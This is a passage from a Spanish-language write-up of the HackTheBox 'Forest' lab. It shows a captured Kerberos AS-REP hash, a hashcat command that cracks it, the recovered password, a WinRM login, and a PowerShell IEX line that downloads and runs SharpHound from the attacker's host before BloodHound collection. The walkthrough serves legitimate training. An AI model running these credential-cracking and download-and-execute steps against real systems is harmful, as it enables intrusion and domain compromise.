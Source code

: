 Tenemos el hash del usuario svc-alfresco.

```hash
$krb5asrep$23$svc-alfresco@HTB.LOCAL:db1dead193ab76a7f057d07353075529$a860d291c1f7c67df9abc7ca66d7afed02eaa679c900bfc874e7b0bc67243d56ef0681efdd5a1e6ef33389a1e0aed9c16aa8346956b4f8c2efd70cf0f57537160d230d6ebbd9fa4be6e15521d30d90e6d4c193c4fb7179ef0437c131935e026147e8ce22f459b3ba1aaa86c92f22d264c9e83ac7418a7cbe254090b20e233f5352b596bbc3a605d584cb73688cbf6cafda12ea96efa1a5ecf64f085dfe63969b6fca003296c41889f03aa4883fc0948b06312da0a4d314173248601179e639a605e90eaca29e13bc4011c5f04b77572ecd8b187b44b37f40b1ac1b8290efe9a3a50c87469b3f
```

Ahora podríamos crackear este hash a través de hashcat o john

`hashcat -m 18200 hashes.hash /usr/share/wordlists/rockyou.txt --force`

> El hash descifrado es s3rvice


Ahora podemos conectarnos a través de WinRM con las credenciales obtenidas

> svc-alfresco:s3rvice

![](/assets/images/HTB/Forest-HackTheBox/winrm.webp)

Y ya podemos leer la flag user.txt

# Escalada de Privilegios [#](privesc) {#privesc}

## BloodHound[🩸](blood) {#blood}

Ahora toca la fase de escalar privilegios, la fase más díficil en mi opinión.

Lanzo los scripts Winpeas, windows-suggester... pero no veo nada de importancia.

Asique procedo a usar SharpHound.

Abrimos un servidor de python

`python3 -m http.server 8080`

Subo el script SharpHound con el comando:

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/SharpHound.ps1')
```

Una vez subido lo ejecutamos con los siguientes parámetros

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Invoke-BloodHound -CollectionMethod All -Domain HTB.local -zipFileName forest.zip
```
